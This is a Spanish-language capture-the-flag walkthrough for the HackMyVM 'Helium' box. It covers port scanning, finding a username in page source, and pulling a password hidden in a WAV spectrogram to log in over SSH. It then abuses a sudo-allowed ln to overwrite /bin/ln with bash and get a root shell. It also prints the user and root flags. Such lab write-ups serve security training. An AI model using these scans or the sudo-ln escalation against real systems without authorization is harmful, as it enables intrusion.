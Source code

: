 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Helium HackMyVM (Easy- Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-08 06:35 EDT
Nmap scan report for 192.168.5.7
Host is up (0.0019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:f6:55:5f:c6:fa:fb:14:15:ae:4a:2b:38:d8:4a:30 (RSA)
|   256 b7:ac:87:6d:c4:f9:e3:9a:d4:6e:e0:4f:da:aa:22:20 (ECDSA)
|_  256 fe:e8:05:af:23:4d:3a:82:2a:64:9b:f7:35:e4:44:4a (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: RELAX
MAC Address: 08:00:27:0C:C2:6E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.49 seconds
```

Veremos que hay un puerto `80` en el que se aloja una pagina web, si entramos dentro veremos una pagina con un audio insertado, que si lo reproducimos suena como unas campanas pequeñas, pero nada interesante.

Si inspeccionamos el codigo veremos lo siguiente:

```html
<!-- Please paul, stop uploading weird .wav files using /upload_sound -->
```

Vemos que ya tenemos un nombre de usuario llamado `paul`, si seguimos investigando veremos que el siguiente link:

```html
<link href="[bootstrap.min.css](view-source:http://192.168.5.7/bootstrap.min.css)" rel="stylesheet">
```

Que si le damos nos lleva a esta parte:

```css
/yay/mysecretsound.wav
```

Podemos creer que es un directorio con dicho archivo, si entramos dentro efectivamente nos descargara el archivo de la musica.

```
URL = http://<IP>/yay/mysecretsound.wav
```

## Escalate user paul

### audacity

Si lo escuchamos nos escucharemos nada interesante, pero al llamarse `secretsound` podemos deducir que algo oculto esconde, por lo que vamos a probar a realizar un `Espectograma` ha dicho audio, vamos a utilizar la herramienta llamada `audacity`.

```shell
sudo apt install audacity
```

Para abrirlo ejecutaremos simplemente:

```shell
audacity
```

Una vez abierto abriremos el audio `.wav` y cargara el audio viendolo de esta forma:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-08 125752.png" alt=""><figcaption></figcaption></figure>

Ahora le tendremos que dar al siguiente boton:

<figure><img src="../../.gitbook/assets/edit.png" alt=""><figcaption></figcaption></figure>

Le daremos a la opcion `Spectogram` y veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-05-08 130058.png" alt=""><figcaption></figcaption></figure>

Veremos que hay un mensaje `oculto` que pone lo siguiente:

```
dancingpassyo
```

Ahora vamos a probarlo con el usuario que encontramos para loguearnos por `SSH` de la siguiente forma:

### SSH

```shell
ssh paul@<IP>
```

Metemos como contraseña `dancingpassyo` y con esto veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
ilovetoberelaxed
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for paul on helium:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User paul may run the following commands on helium:
    (ALL : ALL) NOPASSWD: /usr/bin/ln
```

Veremos que podemos ejecutar `ln` como el usuario `root`, por lo que haremos lo siguiente.

```shell
sudo ln -fs /bin/bash /bin/ln
sudo ln
```

Y con esto seremos `root`:

```
root@helium:/home/paul# whoami
root
```

Por lo que vamos a leer la `flag` de `root`:

> root.txt

```
ilovetoberoot
```
